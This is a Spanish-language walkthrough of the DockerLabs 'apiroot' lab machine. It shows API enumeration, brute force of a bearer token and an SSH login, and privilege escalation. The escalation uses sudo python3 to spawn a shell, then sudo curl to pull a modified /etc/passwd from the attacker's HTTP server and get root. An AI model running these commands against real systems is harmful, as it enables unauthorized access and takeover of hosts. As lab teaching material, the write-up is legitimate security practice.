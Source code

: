 nmap: 22, 5000

![image](https://github.com/user-attachments/assets/ebd72e6c-0cae-4a3a-a87b-32bd4d6d0d17)

entramos a la pagina por el puerto 5000

![image](https://github.com/user-attachments/assets/811b2243-4273-4387-9dc2-b4026ae5c599)

en la pagina nos da un código:

![image](https://github.com/user-attachments/assets/01e2fd20-e3b2-45c1-b936-a64d0e668314)

que si lo probamos da

![image](https://github.com/user-attachments/assets/6cd6e0a2-07ab-4874-be96-ca4646d644df)

nada interesante en si. pero en la pagina veremos algo, que cada ejemplo de API por ejemplo, GET O POST y así, tienen como comienzo "/api"

![image](https://github.com/user-attachments/assets/61cb2c5e-63f7-4eb6-abf2-0d7dcadce5e8)

hacemos un gobuster

![image](https://github.com/user-attachments/assets/05c80861-d4eb-4b1b-a349-56cdcd0beaad)

y nos da "users", lo probamos

![image](https://github.com/user-attachments/assets/f63bc726-1636-48bd-a84e-69a8bb5b039b)

pero la verdad no da mucho mas, buscamos alguna forma de explotar esto, buscamos alguna explotación de "APIs"  y encontre esta: https://github.com/Maalfer/bruteapi/blob/main/bruteapi.sh
que es un .sh, así que nos copiamos el código, creamos un .sh y le damos permisos de ejecución.  

como de por si el ".sh" no esta funcionando o dando algo, lo lanzamos con el comando que nos dio la pagina al principio

     curl -H "Authorization: Bearer password_secreta" http://localhost:5000/api/directorio_oculto

pero medicando para que me de alguna respuesta diferente porque de por si el, ".sh"  es para hacer fuerza bruta, pero basados en el código que nos dieron.  lanzamos

     bash exploit.sh http://172.17.0.2:5000/api/users /usr/share/wordlists/rockyou.txt

![image](https://github.com/user-attachments/assets/4acb1075-cd47-42e6-9fdb-43ba010f6058)


![[dockerlabs/medio/apiroot/contraseña.png]]

obtenemos la contraseña

     password1

y utilizamos la opción 2 que es `Bearer Token`, lo que intentara dar como una ¨coincidencia¨  

entonces si lanzamos el comando

     curl -H "Authorization: Bearer password1" http://172.17.0.2:5000/api/users

![[dockerlabs/medio/apiroot/usuarios.png]]

cambiamos en el código la "password_secreta" por la contraseña encontrada, cambiamos la IP a la de la maquina victima y "directorio_oculto" por "users" que fue lo que nos dio el gobuster. 
entonces obtenemos dos nombres 

     bob y dylan

hacemos una fuerza bruta:

![[dockerlabs/medio/apiroot/hydra.png]]

obtenemos a "bob" y "password1" y tenemos la conexion

![[dockerlabs/medio/apiroot/conexion.png]]

dentro tenemos esto

![[dockerlabs/medio/apiroot/sudo -l.png]]

un python3 y un "app.py", buscamos el de python3 https://gtfobins.github.io/gtfobins/python/#sudo

![[dockerlabs/medio/apiroot/gtf.png]]

lanzamos

     sudo -u balulero python3 -c 'import os; os.system("/bin/sh")'

y somos el usuario balulero

![[dockerlabs/medio/apiroot/usuario2.png]]

tenemos dentro un curl 

![[dockerlabs/medio/apiroot/curl.png]]

lo buscamos en gtf igual

![[dockerlabs/medio/apiroot/conexion2.png]]

y tendremos que abrir un servidor y clonar en este caso el archivo "passwd" 

![[la x.png]]

entonces copiamos el archivo de passwd desde la carpeta victima y en nuestra terminal le sacamos la "x" entonces ahora vamos a pasar desde nuestra maquina a la victima el archivo modificado desde un servidor como nos indica lo de FTFOBINS. 

abrimos el servidor 

     python3 -m http.server 

en la terminal victima colocamos 

    URL=http://172.17.0.1:8000/passwd
    LFILE=/etc/passwd
    sudo curl $URL -o $LFILE

entonces tendremos algo así 

![[server.png]]

ahora verificamos que se remplazo el archivo por el modificado

![[dockerlabs/medio/apiroot/root1.png]]

y vemos que no tiene la "x" así que se modifico correctamente, ahora haremos un "su root"

![[dockerlabs/medio/apiroot/rootf.png]]

y somos root! 
